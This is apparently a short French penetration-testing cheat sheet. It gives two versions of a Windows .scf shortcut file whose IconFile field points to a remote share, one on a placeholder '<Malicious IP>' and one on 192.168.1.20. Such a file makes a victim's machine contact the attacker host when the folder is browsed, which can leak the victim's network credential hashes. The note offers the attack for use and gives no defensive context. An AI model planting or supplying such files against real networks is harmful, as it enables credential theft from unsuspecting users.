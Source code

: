 # Fichier .scf
## creer un fichier .scf contenant:

```
[Shell]
IconFile=\\<Malicious IP>\icon
```

## variante:

```
[Shell]
Command=2
IconFile=\\192.168.1.20\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop

```
